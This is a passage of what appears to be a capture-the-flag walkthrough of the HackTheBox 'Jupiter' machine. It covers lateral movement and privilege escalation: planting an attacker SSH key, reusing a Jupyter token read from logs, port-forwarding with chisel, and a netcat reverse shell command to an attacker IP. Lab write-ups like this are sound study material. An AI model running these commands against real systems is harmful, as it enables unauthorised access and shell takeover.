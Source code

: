 
so after classic /tmp/bash -p we are in group of jovian and we can modify his authorized_keys with the attacker machine ssh id_rsa.pub
and now can gain access with ssh without any credentials

`ssh juno@jupiter.htb`




## Privesc



I notice that there's another lateral movement with solar-flares flow which i can see logs!

So everytime our victim connect with jupiter notebook (which is a open source framework for interactive computing across all programming languages) and in logs we can see his token and so we can directly access to the page without password



```
    To access the notebook, open this file in a browser:
        file:///home/jovian/.local/share/jupyter/runtime/nbserver-1162-open.html
    Or copy and paste one of these URLs:
        http://localhost:8888/?token=9f4cb36af18600c2aa48ccacc97273429a4261def2302e37
     or http://127.0.0.1:8888/?token=9f4cb36af18600c2aa48ccacc97273429a4261def2302e37

```


so with the help of chisel we can port forward in our localhost and boom we are just logged in 

now go on the .ipynb and lunch something like that ...


```
__import__('os').system('id')

jovian

__import__('os').system('/tmp/nc 10.10.14.40 4444 -e /bin/bash')


```

so now we can access with jovian permission and with `sudo -l` we can see there's this program `/usr/local/bin/sattrack` 


so now we can run

`sudo /usr/local/bin/sattrack` 

response
```
Satellite Tracking System
Configuration file has not been found. Please try again!

```
